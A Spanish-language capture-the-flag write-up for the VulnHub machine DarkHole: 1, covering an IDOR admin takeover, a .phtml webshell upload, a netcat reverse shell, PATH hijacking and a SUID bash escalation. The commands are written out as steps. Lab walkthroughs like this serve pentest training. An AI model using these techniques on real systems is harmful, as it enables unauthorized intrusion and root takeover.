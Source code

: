 # VulnHob - DarkHole: 1 Writeup

## Primer paso: Excaneo de puertos
Anotamos nuestra IP

```bash
sudo ifconfig
```

![Consola](img/1.png)

En este caso será 192.168.226.128

Luego, es necesario encontrar la máquina a vulnerar. Esto se puede hacer con arp-scan o nmap. En este caso se le pedirá a nmap que escanee todas las IPs en nuestro rango.

```bash
nmap 192.168.226.0.0-255
```

![Consola](img/2.png)

Encuentra tres IPs:

- 192.168.226.2 :Tiene abierto el puerto 53, que se usa para DNS, por lo que se descarta esta máquina.
- 192.168.226.128: Es la máquina atacante.
- 192.168.226.129: Es la única máquina que queda, además tiene abiertos los puertos 22 y 80 (ssh y una página web)

## Obtener reverse web shell
Si introducimos en un navegador 192.168.226.129 podremos ver la página

![Página web](img/3.png)

Esta página tiene un panel de login y para registrarse:

![Página web](img/4.png)

Al ingresar con el usuario creado, podremos ver que se puede cambiar el nombre de usuario, correo y contrseña.

![Panel de control del usuario](img/5.png)

Podría ser interesante interceptar las peticiones con BurpSuite. Al interceptar el cambio de nombre de usuario y de email no hay nada interesante. Sin embargo, la petición de cambio de contraseña es:

![BurpSuite](img/6.png)
Se puede ver que cambia la contraseña con password=1, pero añade un &id=2. Al modificar el id a 1 podríamos cambiar la contraseña de otro usuario.

Como sólo hay dos usuarios con dos ids, se puede suponer que el usuario con el id 1 es el administrador.

Probamos con el usuario admin y la contraseña que le hemos puesto y accedemos a otro panel de control:

![Panel de control del administrador](img/7.png)


El usuario admin puede subir archivos, probamos a subir un .php con una shell.

Sin embargo, no nos dejará subir un archivo con la extensión .php


![Panel de control del administrador](img/8.png)


.php no es la única extensión capaz de hacer que el servidor ejecute el lenguaje php, probaremos con .phtml

![Archibo subido con éxito](img/9.png)


Si el php se ha ejecutado correctamente, debe aparecer como la siguiente imagen al añadir un comando a la url con ?cmd=

![Comando ejecutado con éxito](img/10.png)

Ahora tenemos acceso a la webshell, vamos a decirle que se conecte a nuestra shell.

Antes de nada, desactivamos le cortafuegos del dispositivo y el proxy del navegador

![Desactivar proxy del navegador](img/11.png)

![Desactivar cortafuegos del dispositivo](img/12.png)

Después, ponemos una consola en escucha.

```bash
sudo nc -nlvp 443
```

![Desactivar cortafuegos del dispositivo](img/13.png)

Y le decimos a la web que se conecte a nuestro puerto descargando, subiendo y accediento al siguiente archivo php [https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php](Archivo PHP)

Donde debemos cambiar la IP por nuestra IP y el puerto por el que hayamos puesto en el comando nc.


Ya tenemos la reverse web shell, ahora hay que convertirla en TTY. Como se puede ver, la consola muestra el mensaje "can't access tty".

![Consola](img/14.png)

Ejecutamos los siguientes comandos:
1. Creamos un terminal normal.
```bash
script /dev/null -c bash
```
2. Ctrl+z: Suspendemos la consola anterior.
3. Configuramos el terminal en modo crudo (para que no procese caracteres especiales y tome nuestra entrada tal y como se la proporcionamos) y desactiva echo (no muestra los caracteres por pantalla). Luego recupera el proceso suspendido más reciente.
```bash
stty raw -echo; fg
```
4. Reestablecemos el terminal.
```bash
reset xterm
```

Y al comprobar si estamos operando una tty nos devolverá que sí:

![Consola](img/15.png)


## Escalar privilegios
Enumeramos los usuarios:

```bash
ls -l
```

![Consola](img/16.png)

El directorio del usuario darkhole está vacío.

Vemos que john tiene archivos de contraseñas y usuario, pero no son accesibles desde el usuario www-data que somos ahora mismo.

![Consola](img/17.png)

El archivo más interesante es toto, que ejecuta con permisos de root. Al ejecutarlo, vemos que ejecuta el comando id.

En el caso de que esté ejecutando id sin su ruta absoluta, se puede realizar un path hijacking:
1. echo "bash -p" > /tmp/id
2. export PATH=/tmp:$PATH

Con esto, hacemos que si alguien ejecuta el comando "id", el sistema busque qué debe hacer primero en /tmp y, al encontrar nuestro archivo "id" antes que los demás, ejecute "bash -p"

Ahora, al ejecutar ./toto, dejaremos de ser el usuario www-data y seremos el usuario john:

![Consola](img/18.png)

Tenemos acceso a los archivos user.txt y password.

![Consola](img/19.png)

Listamos lo que puede ejecutar john como root para ver si se puede vulnerar.

![Consola](img/20.png)

john puede ejecutar como root el archivo file.py. Se usará para escalar privilegios.

Nos conectamos por ssh para poder editarlo fácilmente usando nano y los atajos de teclado:

```bash
ssh john@192.168.226.129
```

Y de contraseña root123

Escribimos en el archivo el siguiente código
```
import os

os.system("chmod u+s /bin/bash")
```

Para que cualquier usuario pueda ejecutar el terminal de root. Y lo ejecutamos:


![Consola](img/21.png)


Cambiamos la consola con 

```bash
bash -p
```


Y comprobamos el usuario que somos

```bash
whoami
```

![Consola](img/22.png)

Por último, accedemos a la flag

![Consola](img/23.png)